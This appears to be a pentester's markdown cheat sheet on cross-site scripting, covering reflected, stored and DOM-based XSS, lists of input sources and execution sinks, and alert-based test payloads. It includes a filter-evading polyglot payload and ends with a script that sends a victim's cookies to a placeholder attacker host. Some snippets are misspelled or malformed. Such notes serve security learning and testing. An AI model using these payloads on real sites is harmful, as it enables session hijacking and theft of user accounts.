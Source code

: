 ## XSS

execute arbitrary javascript code by injecting it in user input 
```javascript
<script>alert(0)</script>
```



### Reflected XSS 
look for directly reflected input that could be vulnerable 
(injects the code into the html)
● Input Fields like search 

### Stored XSS
look for input that gets saved and THEN reflecetd somewhere for users to see 
● Email
● Username
● BIO
● Address
● Comments
● Images
● Links

### DOM based XSS
happens in the brower without doing any http requests (in the js code itself)
from search param to js for instance 
look for 
```javascript
eval(input);
```
note:
eval(console.log('inner function executes first'));

look for input in :
● document.URL
● document.documentURI
● document.baseURI
● location
● location.href
● location.search
● location.hash
● Location.pathname
● Document.cookie

look for sinks that excecute the input 
###### Sinks with examples :
Eval           
```javascript
eval(“Javascript Code” + alert(0))
```
Function  
```javascript
 function(“Javascript Code” + alert(0))
```
SetTimeout  
```javascript
settimeout(“Javascript Code” + alert(0),1)
```
SetInterval 
```javascript
setinterval(“Javascript Code” + alert(0),1)
```            
Document.write 
```javascript
document.write("html"+ “<img src=/ onerror=alert(0)”)
```     
Element.innerHTML 
```javascript
 div.innerHTML = "htmlString"+ “<img src=/ onerror=alert(0)”
```
#### Polyglots
use polyglots to trigger different types of xss

```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/>oNloAd=alert()//>\x3e
```
use xss to steal cookies 
```javascript
<script type="text/javascript">document.location='http://attacker-domain/cookiestealer?cookie='+document.cookie; </script>
```